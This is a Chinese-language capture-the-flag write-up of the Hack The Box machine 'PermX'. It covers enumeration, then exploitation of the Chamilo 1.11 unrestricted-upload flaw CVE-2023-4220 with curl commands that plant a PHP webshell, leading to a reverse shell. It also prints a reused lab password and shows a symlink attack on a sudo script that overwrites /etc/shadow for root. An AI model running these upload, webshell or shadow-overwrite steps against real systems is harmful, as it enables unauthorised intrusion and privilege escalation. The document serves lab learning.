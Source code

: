 ```yaml
---
description: Linux / Easy / chamilo 1.11
---
```


# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><img src="../../.gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><img src="../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><img src="../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (8).png" alt=""><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><img src="../../.gitbook/assets/15 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><img src="../../.gitbook/assets/18 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><img src="../../.gitbook/assets/19 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><img src="../../.gitbook/assets/20 (5).png" alt=""><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh服务，或许有重用密码的可能，但是用以上的凭证(chamilo:03F6lY3uXAP2bkW8)无法成功登录ssh服务，于是进行进一步信息枚举：

<figure><img src="../../.gitbook/assets/24 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

* 通过以上可知目标机器上的用户里并没有chamilo这个用户名，并且在/home目录中有个/mtz的目录无权访问，而/etc/passwd里正好有这个用户名，于是利用刚才的密码和mtz这个用户名进行ssh登录尝试，成功：

```bash
ssh mtz@10.129.76.98
03F6lY3uXAP2bkW8
```

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

* 经过初步的手动枚举，\`sudo -l\`发现了当前可以用sudo身份执行且无需密码的文件是/opt目录下的acl.sh文件，阅读该文件中的代码可得知该脚本是用于指定用户对特定文件的访问权限的，并且要求必须是在/home/mtz/目录下进行的：

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 由于该脚本可以修改/home/mtz/目录下的所有的文件权限，那么这就意味着我可以使用符号链接攻击将/etc/shadow文件映射到这里，修改其root密码即可完成提权：

```bash
# 当前所处的位置应就是/home/mtz/目录下：
ln -s / root
ls -l
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
echo 'root:$6$tPR3EAkzdPCSN2hT$fwoI8zEzWpKFxmw8JlLFjczHcd1sdLTXzIZuXUx6qwKdG3u2ynkEsDRxx/kf24WAI7gvgiqo.6r6qJ9uEecPs/:19742:0:99999:7:::' >/etc/shadow
su root
```

* 因为这里是需要修改/etc/passwd文件中的root的密码hash部分，所以，需要事先制作一个自定义的root账户的密码hash：

```bash
openssl passwd -6 fiii
```

<figure><img src="../../.gitbook/assets/28 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

<figure><img src="../../.gitbook/assets/29 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。
{% endhint %}
